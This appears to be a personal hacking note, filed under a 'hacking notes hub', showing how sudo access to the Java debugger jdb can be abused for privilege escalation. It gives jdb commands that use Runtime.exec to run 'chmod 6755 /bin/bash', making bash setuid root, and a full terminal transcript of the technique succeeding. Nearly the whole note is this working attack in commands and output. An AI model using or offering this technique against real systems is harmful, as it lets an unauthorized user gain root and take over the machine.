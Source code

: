 # java jdb execute commands
```
stop on Main.main
run
eval java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash");
cont
```
```
user@hostname:~$ sudo /usr/bin/jdb -classpath /root/ Main
Initializing jdb ...
> stop on Main.main
Deferring breakpoint Main.main.
It will be set after the class is loaded.
> run
run Main
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
>
VM Started: Set deferred breakpoint Main.main

Breakpoint hit: "thread=main", Main.main(), line=5 bci=0
5               System.out.println("Hello World!");

main[1] eval java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash");
 java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash"); = "Process[pid=3332, exitValue="not exited"]"
main[1] cont
> Hello World!

The application exited
```

` zet/20221003150292/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes hub

Tags:

    
